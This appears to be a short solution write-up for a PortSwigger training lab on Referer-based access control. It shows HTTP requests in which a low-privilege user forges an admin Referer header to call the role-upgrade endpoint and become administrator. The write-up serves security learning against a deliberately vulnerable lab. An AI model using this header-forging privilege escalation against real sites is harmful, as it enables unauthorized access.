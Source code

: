 # [Lab: Referer-based access control](https://portswigger.net/web-security/access-control/lab-referer-based-access-control)

This lab controls access to certain admin functionality based on the Referer header. You can familiarize yourself with the admin panel by logging in using the credentials  `administrator:admin`.

To solve the lab, log in using the credentials  `wiener:peter`  and exploit the flawed  [access controls](https://portswigger.net/web-security/access-control)  to promote yourself to become an administrator.

## Analysis

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/1.1
Cookie: session=adminsession
Referer: https://id.web-security-academy.net/admin
```

=> ok

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/1.1
Cookie: session=adminsession
Referer: foo
```

=> 401 unauthorized

## Solutions

```http
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Cookie: session=wienersession
Referer: https://id.web-security-academy.net/admin
```

=> ok
